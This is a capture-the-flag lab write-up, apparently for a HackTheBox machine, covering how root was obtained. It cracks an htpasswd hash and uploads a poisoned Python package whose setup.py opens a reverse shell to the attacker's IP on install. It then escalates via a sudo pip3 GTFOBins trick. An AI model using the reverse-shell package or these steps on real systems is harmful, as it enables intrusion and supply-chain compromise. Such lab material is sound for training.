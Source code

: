 # Getting Root
subdomain  pypi.sneakycorp.htb ,adding to /etc/hosts
![[Pasted image 20211214003739.png]]

```bash
$ cat .htpasswd 
pypi:$apr1$RV5c5YVs$U9.OTqF5n8K4mxWpSSR/p/
```

Cracking hash
$apr1$RV5c5YVs$U9.OTqF5n8K4mxWpSSR/p/:soufianeelhaoui
![[Pasted image 20211214010129.png]]

subdomain http://pypi.sneakycorp.htb:8080/  on port 8080
![[Pasted image 20211214004633.png]]

### Create a malicious file and upload on pypi server
https://packaging.python.org/en/latest/tutorials/packaging-projects/

Example of creating a package file

```bash
packaging_tutorial/
├── LICENSE
├── pyproject.toml
├── README.md
├── setup.cfg
├── src/
│   └── example_package/
│       ├── __init__.py
│       └── example.py
└── tests/
```

Create folder pypi/eris(MyPackageName)/__init__.py(no content)

create setup.py instead setup.cfg (insert rev shell in the file) | made some chages to make work

```python
import setuptools
import socket,subprocess,os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.21",9001))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"]);


setuptools.setup(
    name="example-pkg-YOUR-USERNAME-HERE",
    version="0.0.1",
    author="Example Author",
    author_email="author@example.com",
    description="A small example package",
    long_description_content_type="text/markdown",
    url="https://github.com/pypa/sampleproject",
    project_urls={
        "Bug Tracker": "https://github.com/pypa/sampleproject/issues",
    },
    classifiers=[
        "Programming Language :: Python :: 3",
        "License :: OSI Approved :: MIT License",
        "Operating System :: OS Independent",
    ],
    python_requires=">=3.6",
)

```


### have to create a .pypirc file to tell our python to point to the server
create .pypirc on home directory  ~/.pypi.rc

```bash
$ cat ~/.pypirc 
[distutils]
index-servers = remote

[remote]
repository: http://pypi.sneakycorp.htb:8080
username: pypi
password: soufianeelhaoui
```

```bash
python3 setup.py sdist upload -r remote
```

listning on local machine after the connection , open another port to listening again and receive a shell
![[Pasted image 20211214111752.png]]

![[Pasted image 20211214111804.png]]

![[Pasted image 20211214113150.png]]

https://gtfobins.github.io/gtfobins/pip/#sudo

changed pip for pip3
```
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo pip3 install $TF
```

![[Pasted image 20211214113406.png]]